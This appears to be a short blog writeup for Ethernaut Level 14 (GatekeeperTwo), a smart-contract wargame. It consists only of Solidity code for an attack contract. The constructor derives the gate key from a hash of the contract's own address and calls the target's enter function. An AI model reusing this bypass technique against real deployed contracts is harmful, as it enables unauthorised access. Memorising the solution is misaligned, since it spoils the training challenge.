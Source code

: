 +++
title = 'Ethernaut Level 14 - Gatekeepertwo'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Break even more gates'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Attack{
    bool public  success = false;
    constructor(address _addr) {
        GatekeeperTwo target = GatekeeperTwo(_addr);
        bytes8 key = bytes8(abi.encodePacked(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max));
        success = target.enter(key);
        
    }
}
```